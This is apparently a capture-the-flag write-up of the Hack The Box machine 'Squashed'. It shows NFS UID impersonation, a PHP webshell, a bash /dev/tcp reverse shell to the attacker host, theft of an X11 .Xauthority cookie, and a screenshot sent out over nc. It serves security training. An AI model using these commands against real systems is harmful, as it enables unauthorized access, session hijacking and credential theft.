# HTB - Squashed

**IP Address:** `10.129.11.87`  
**OS:** Linux (Ubuntu — OpenSSH 8.2p1 / Apache 2.4.41 per `nmap`)  
**Difficulty:** Easy  
**Tags:** #Linux #NFS #PHP #X11 #KeePassXC #Web

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-squashed.md`. Redact flags, hashes, and any cleartext secrets before publishing a public writeup.

---
## Synopsis

Squashed is an easy Linux machine where **NFS** exports **`/var/www/html`** and **`/home/ross`** with permissive client mapping. The web docroot is owned by **UID 2017** on the server, so a local user with the same numeric UID can **read and write** the live Apache tree over NFS, drop a **PHP** webshell, and obtain a shell as **`alex`**. A second export exposes **`ross`**’s home (**UID 1001**), including **`.Xauthority`**. With **`ross`** logged into a graphical session on **`:0`**, **`alex`** can reuse that cookie (fixing **`HOME`/`XAUTHORITY`** in a reverse shell), capture the desktop with **`xwd`**, and read a **KeePassXC** entry that reveals the **root** password for **`su`**. Files dropped in the web root may be removed after a short interval (cleanup), so the webshell may need to be recreated via NFS.

---
## Skills Required

- Basic `nmap` TCP scanning and service identification  
- **NFS** client usage (`showmount`, `mount`, `nfs-common`)  
- Linux **UID/GID** semantics and **root_squash** awareness  
- Simple **PHP** webshell + reverse shell over **`bash`/`/dev/tcp`**  
- Basic **X11** concepts: **`.Xauthority`**, **`DISPLAY`**, **`xauth`**, **`xwd`**

## Skills Learned

- Abusing **NFS** export misconfiguration by **matching remote UIDs** locally  
- Correlating **`/var/www/html`** with a static **Apache** site  
- **X11** session hijack using a stolen cookie and explicit **`HOME`** in non-login shells  
- Capturing and converting **`.xwd`** dumps for credential harvesting from **GUI** state

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.11.87
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.11.87 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports from this run: `22,80,111,2049,36443,37605,46585,47331`

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80,111,2049,36443,37605,46585,47331 10.129.11.87 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22/tcp | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 |
| 80/tcp | http | Apache 2.4.41 (Ubuntu), title **Built Better** |
| 111/tcp | rpcbind | RPC portmapper |
| 2049/tcp | nfs | NFS 3–4; `mountd` / `nlockmgr` on high ports per `rpcinfo` |
| 36443, 37605, 46585, 47331/tcp | rpc | `nlockmgr` / `mountd` (supporting NFS) |

---
## 2. Service Enumeration

### 2.1 HTTP fingerprint

The site is a static template; fingerprinting confirms the stack and supports treating the web app as low-yield until NFS is explored.

```bash
whatweb http://10.129.11.87
```



---
### 2.2 NFS export listing

NFS is exposed; listing exports is the fastest way to see remotely reachable paths.

```bash
showmount -e 10.129.11.87
```



---
### 2.3 Mounting exports and observing ownership

Mounts require a working NFS client (`nfs-common`) and typically **`sudo`**. After mounting, directory ownership shows which **numeric identities** matter on the server.

```bash
sudo mkdir -p /mnt/squashed_ross /mnt/squashed_www
sudo mount -t nfs -o vers=3 10.129.11.87:/home/ross /mnt/squashed_ross
sudo mount -t nfs -o vers=3 10.129.11.87:/var/www/html /mnt/squashed_www
```



On the attacking host, **`/mnt/squashed_ross`** appears as **1001:1001** (readable tree including **`Documents/Passwords.kdbx`** and **`.Xauthority`**). **`/mnt/squashed_www`** is **`drwxr-xr--`** owned by **2017** / group **www-data** — access as a normal local user fails until you impersonate **UID 2017**.

```bash
cd /mnt
ls -a
tree
tree -fas /mnt/squashed_ross
```



We have a `Passwords.kdbx` file. Let's see if we can open it:



We need credentials, **so** we cannot continue with this path until we **achieve** credentials (or recover them later from the GUI path).

We also have **`.Xauthority`** in **`ross`**’s home, but it is owned by **UID 1001**. Come back to this after you get a shell via another path.

Separately, we get **permission denied** on `squashed_www/` because the directory is owned by **UID 2017** on the server:



---
## 3. Foothold

### 3.1 Impersonating UID 2017 and writing the web root

Create a local unprivileged user whose **UID/GID** matches **2017**, then interact with the **`/var/www/html`** mount as that user to obtain read/write access to the live docroot.

```bash
sudo useradd squashed
sudo usermod -u 2017 squashed
sudo groupmod -g 2017 squashed
id squashed
sudo su squashed
cd /mnt/squashed_www && tree -fas
```



Confirm writes reach the web server:

```bash
echo "test" > /mnt/squashed_www/test.txt
```



Drop a minimal PHP command dispatcher (syntax must be valid PHP):

```php
<?php
	echo "<pre>" . shell_exec($_REQUEST["cmd"]) . "</pre>";
?>
```

Then browse to `http://10.129.11.87/cmd.php?cmd=whoami` (or equivalent) to confirm execution:



Perfect, we are alex.

---
### 3.2 Reverse shell and user flag

Start a listener on the attacker, then trigger a reverse shell via the webshell (URL-encode **`&`** as **`%26`** in the query string if using the browser). **`cmd.php`** may disappear after a short time; recreate it over NFS as needed.

```bash
# Attacker
nc -lvnp 443
```

```bash
# On target via browser/cmd.php (replace IP with your VPN/tun address)
bash -c "bash -i >& /dev/tcp/10.10.15.206/443 0>&1"
```



```bash
whoami
cat /home/alex/user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Active session, `.Xauthority`, and fixing `HOME` in a reverse shell

Check whether another user has a GUI session and which display is in use:

```bash
w
```



Perfect, **`ross`** is also connected.

We already saw **`.Xauthority`** under **`ross`** on the NFS mount. On the attacker, create **UID 1001**, read that file from **`/mnt/squashed_ross`**, then serve it briefly so **`alex`** can **`wget`** it into **`/home/alex/.Xauthority`**.

```bash
# Attacker (example)
sudo useradd squashed_xauth
sudo usermod -u 1001 squashed_xauth
id squashed_xauth
sudo su squashed_xauth
cd /mnt/squashed_ross
cat .Xauthority; echo
xxd .Xauthority; echo
```



Example `xxd` output (binary MIT-MAGIC-COOKIE data; hostname **`squashed.htb`** visible in the dump):

```text
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 1051 1567 e1ea 6ff3  OOKIE-1..Q.g..o.
00000030: fe88 a248 835e 9212 75                   ...H.^..u
```

The cookie is not meaningful in `cat`, but the file is readable as **UID 1001**. **`alex`** on the target cannot read **`ross`**’s home directly, so exfiltrate **`.Xauthority`** to **`/home/alex/`** via a short-lived HTTP fetch from the attacker:

```bash
# attacker
python3 -m http.server 8080
# Target (alex)
wget http://10.10.15.206:8080/.Xauthority
chmod 600 ~/.Xauthority
export HOME=/home/alex
export XAUTHORITY=/home/alex/.Xauthority
export DISPLAY=:0
xauth -f /home/alex/.Xauthority list
```

In a plain **`nc`** reverse shell, **`$HOME` is often unset**, so **`"$HOME/.Xauthority"`** becomes **`/.Xauthority`** and **`xauth`** tries to lock the wrong file. The **`chmod`** and **`export`** lines above already fix that; confirm the cookie with **`xauth list`**, then talk to the X server:

```bash
xdpyinfo
```



Enumerate windows on the root display:

```bash
xwininfo -root -tree -display :0
```



---
### 4.2 Screenshot exfiltration and KeePassXC

Capture the root window, transfer the **`.xwd`** to the attacker, convert to **`.png`**, and inspect offline.

```bash
# Target (alex shell)
xwd -root -screen -silent -display :0 > /tmp/screenshot.xwd
file /tmp/screenshot.xwd
nc 10.10.15.206 443 < /tmp/screenshot.xwd
# Attacker
nc -lvnp 443 > screenshot.xwd
```



Convert the dump to PNG for easier viewing:

```bash
convert screenshot.xwd screenshot.png
```

